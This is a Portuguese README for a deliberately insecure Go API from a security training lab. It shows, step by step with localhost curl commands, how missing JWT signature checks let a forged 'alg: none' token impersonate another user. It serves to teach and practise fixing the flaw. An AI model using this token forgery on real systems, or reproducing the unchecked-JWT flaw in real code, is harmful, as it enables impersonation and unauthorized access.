 

# Camp Crystal Lake API

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

A API do Camp Crystal Lake é um aplicativo web simples em Golang que contém um exemplo de vulnerabilidade de Quebra de Controle de Acesso e seu principal objetivo é descrever como um usuário mal-intencionado pode explorá-lo.

## Index

- [Definição](#o-que-é-quebra-de-controle-de-acesso)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é quebra de controle de acesso?

O controle de acesso impõe a política de forma que os usuários não possam agir fora de suas permissões pretendidas. As falhas geralmente levam à divulgação, modificação ou destruição de informações não autorizada dos dados ou à execução de uma função fora dos limites de acesso do usuário.

Os invasores podem explorar essas falhas para acessar funcionalidades e/ou dados não autorizados, como acesso a contas de outros usuários, visualizar arquivos confidenciais, modificar dados de outros usuários, alterar direitos de acesso, etc.

O principal objetivo deste aplicativo é discutir como as vulnerabilidades da **Quebra de Controle de Acesso** podem ser exploradas e incentivar os desenvolvedores a enviar Pull Requests ao **SecDevLabs** apresentando como eles corrigiriam essas falhas.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Depois é só visitar [localhost:20001][App] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Registrar um usuário;
- Realizar um login;
- Criar um novo post.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A validação incorreta do JWT, permite que usuários mal-intencionados criem tokens falsos e abusem da não validação do JWT. Um exemplo da não validação do JWT é não validar o algoritmo de assinatura usado.

Para entender melhor como a API funciona, criaremos um novo usuário.

Para este exemplo, criamos o usuário com as seguintes credenciais de login - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

Com o usuário criado, faremos login no aplicativo com suas credenciais para obter o token JWT. Por se tratar de um aplicativo de teste, o token JWT é devolvido ao usuário assim que ele efetua o login.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

De posse do token JWT, podemos criar um novo post na API, fazendo uma requisição POST diretamente para a rota autenticada `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

Porém, a API não verifica a assinatura utilizada pelo token JWT, qualquer usuário malicioso pode criar um token falso, conforme mostra a imagem:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

* Usar tokens falsos sem uma assinatura válida.
* Alterar outros usuários por meio da manipulação do JWT.

## PR Soluções

[Alerta de spoiler  🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/labels/Camplake-API)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição! 🎉 🎉


[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api

